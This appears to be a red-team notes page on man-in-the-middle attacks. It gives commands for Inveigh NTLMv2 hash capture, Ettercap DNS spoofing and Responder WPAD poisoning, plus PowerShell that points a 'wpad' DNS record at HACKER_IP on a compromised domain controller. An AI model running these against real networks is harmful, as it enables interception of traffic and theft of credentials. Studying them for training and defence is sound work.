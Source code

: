 # Man-in-the-middle attack

<div class="row row-cols-lg-2"><div>

A Man-in-the-middle <small>(M-I-T-M)</small> design an attack where an attacker seats between clients and their target server.

* They fooled the client and made them believe they are the 'server'
* They are able to access and maybe edit/drop every message

The hacker will most likely be able to read hashes or credentials sent over the network allowing them to compromise more accounts 🔑.
</div><div>

See also: [LLMNR/NBT-NS Poisoning](/cybersecurity/red-team/s2.discovery/techniques/network/poisoning.md).
</div></div>

<hr class="sep-both">

## Common tools

<div class="row row-cols-lg-2"><div>

#### Inveigh

[![active_directory_enumeration_attacks](../../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

[Inveigh](https://github.com/Kevin-Robertson/Inveigh) <small>(2.5k ⭐)</small> is a M-I-T-M tool on Windows.

The PS1 script is deprecated:

```ps
PS> Import-Module .\Inveigh.ps1
PS> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

You can use the executable if you have admin privileges:

```ps
$ wget https://github.com/Kevin-Robertson/Inveigh/releases/download/v2.0.10/Inveigh-net7.0-win-x64-trimmed-single-v2.0.10.zip -O Inveigh.zip
$ unzip Inveigh.zip
PS> .\Inveigh.exe
...
HELP<cr>
PROMPT> GET NTLMV2UNIQUE
PROMPT> GET NTLMV2USERNAMES
```
</div><div>

#### Ettercap

[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

[Ettercap](https://github.com/Ettercap/ettercap) <small>(2.3k ⭐)</small> is a M-I-T-M tool.

```shell!
$ cat /etc/ettercap/etter.dns
example.com      A   X.X.X.X
*.example.com    A   X.X.X.X
```

* Navigate to `Hosts > Scan for Hosts`
* Edit the host configuration
* Navigate to `Plugins > Manage Plugins`
* Active to a `dns_spoof` attack.
</div></div>

<hr class="sep-both">

## WPAD rogue proxy server

[![windows_privilege_escalation](../../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![active_directory_enumeration_attacks](../../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

The Web Proxy Auto-Discovery (WPAD) Protocol is used by web browsers to automatically find the web proxy on the network.

Clients will send a WPAD query to look for the proxy server. The server responds with the URL to the proxy configuration file (`wpad.dat`).

Hackers can set up a rogue WPAD proxy server and intercept network traffic of the hosts that got fooled. WPAD is not enabled by default in most web browsers aside from Internet Explorer.
</div><div>

We can use [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md):

```ps
$ sudo responder -I tun0 -wdF -b
```

We can edit the configuration of a compromised host:

```ps
PS> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.example.com
PS> Add-DnsServerResourceRecordA -Name wpad -ZoneName example.com -ComputerName dc01.example.com -IPv4Address HACKER_IP
```
</div></div>
